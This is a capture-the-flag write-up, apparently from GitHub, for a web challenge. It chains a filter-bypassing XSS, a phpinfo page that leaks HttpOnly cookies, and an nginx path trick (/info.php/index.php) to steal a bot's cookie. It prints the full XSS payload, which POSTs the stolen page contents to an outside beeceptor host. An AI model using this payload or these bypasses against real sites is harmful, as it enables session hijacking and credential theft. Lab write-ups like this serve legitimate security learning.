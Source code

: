 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **The challenge was provided with a src code**
  **the src code is made of 4 main files**
  **1- index.php**
  **2- info.php**
  **3- bot.js**
  **4- nginx.conf**

  **The flag is in the bot.js cookie with a httponly attribute this means that JS cannot access the cookie**

  **1-index.php**
  
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how?**

  **The main problem is in the Enhanced_Trim function that replaces the defined charset with "" so how can we bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this doesn't have any value since we cannot use JS to steal the cookie because of the httponly attribute on the cookie**

  **the solution was in the info.php that views the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  
  **when a user visits the phpinfo page it reflects its cookie in the response even the HttpOnly ones like this**

  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right? wrong, this will not work because of nginx.conf lets take a look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot doesnt see the localhost of the challange so it cannot access it)**

  **the solution was in the last part of the configuration that includes and runs any file that ends with .php so we can use it to access the info.php right?**

  **I found this on hacktricks that allowed me to bypass the validation and access the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we can access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **Now we can make the bot visit the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```


    ![image](https://github.com/user-attachments/assets/943c34c6-11f1-4835-81dd-e08e9c665855)



`flag -> idek{Ghazy_N3gm_Elbalad} `
